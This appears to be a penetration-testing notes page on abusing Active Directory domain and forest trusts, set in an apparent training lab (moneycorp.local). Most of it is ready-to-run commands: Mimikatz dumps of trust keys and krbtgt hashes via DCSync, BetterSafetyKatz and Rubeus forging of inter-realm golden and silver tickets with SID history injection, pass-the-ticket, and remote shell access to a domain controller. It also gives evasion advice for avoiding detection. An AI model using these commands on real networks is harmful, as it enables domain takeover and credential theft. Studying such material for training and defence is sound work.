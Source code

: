# Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key. (SIDHistory)

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% hint style="warning" %}
Use Rubeus section below(Personal opinion). Better than SaftyKatz.
{% endhint %}

{% code overflow="wrap" %}
```batch
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<current_domain_sid> /sids:<sid_to_inject> /rc4:<trust_key> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| /domain:  | FQDN of the current domain                       |
| /sid:     | SID of the current domain                        |
| /sids     | SID to be injected to the SID history            |
| /rc4:     | RC4 of the trust key                             |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key |
| /user:    | User to impersonate                              |
| /service: | Target service in the parent domain              |
| /target:  | FQDN of the parent domain                        |
| /ticket   | Path to save the ticket                          |

{% code overflow="wrap" %}
```batch
# Same can be done with Rubeus
# Child to parent
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust_key> /sid:<sid_current_domain> /sids:<enterprise_admin_group_sid> /ldap /user:Administrator /nowrap

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848  /netbios:dcorp /ptt

# Accross Forest
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust_key> /sid:<sid_current_domain> /ldap /user:Administrator /nowrap
```
{% endcode %}

**id** is always the RID of the **default built-in domain Administrator** account.\
Also, instead of putting Enterprise Admin Group SID, put `Domain Controllers SID, Enterrpise Domain Controllers SID` . It's opsec safe cause a domain admin is signing in to a enterprise admin level machine doesn't look normal.

### Request the TGS and pass it

{% code overflow="wrap" %}
```batch
# Forge the ticket
Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:C:\AD\Tools\trust_tkt.kirbi
```
{% endcode %}

After that any attack can be performed according to the service requested.

### Test the privilege

```batch
winrs -r:mcorp-dc cmd
```
